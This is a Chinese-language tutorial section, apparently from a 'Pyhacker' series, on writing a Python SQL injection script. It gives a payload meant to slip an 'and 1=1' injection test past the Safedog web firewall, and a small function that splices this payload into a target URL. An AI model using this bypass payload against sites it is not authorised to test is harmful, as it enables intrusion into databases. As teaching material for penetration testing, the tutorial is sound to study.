 ## Pyhacker 之 Sql脚本编写

**00x1：**  

需要用到的模块如下：  

import requests  

import re  

**00x2：**  

编写Sql判断  

首先我们需要一个payload，最好可以bypass，这样方便测试  

?a=/*&id=1%20and%201=1%23*/  

这里以bypass 安全狗为例  

相关文章：http://www.hackxc.cc/?post=19  

```
url = 'http://127.0.0.1/index.php?id=1'
r = r'\?(.*)'
id = re.findall(r,url)
id = id[0]
payload = "?a=/*&{}%20and%201=1%23*/".format(id)
```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/1.png)  

Ok，可以正常输出  

再匹配前面的url + payload完美bypass  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/2.png)  

整理一下代码：  

```
def url_bypass(url):
    r = r'\?(.*)'
    id = re.findall(r,url)
    id = id[0]
    payload = "?a=/*&{}%20and%201=1%23*/".format(id)

    urlr = '(.*)\?%s'%id
    url_ = re.findall(urlr,url)
    url_=url_[0]
    print url_+payload

url = 'http://127.0.0.1/index.php?id=1'
url_bypass(url)
```  

存放到列表当中，等下我们直接遍历即可  
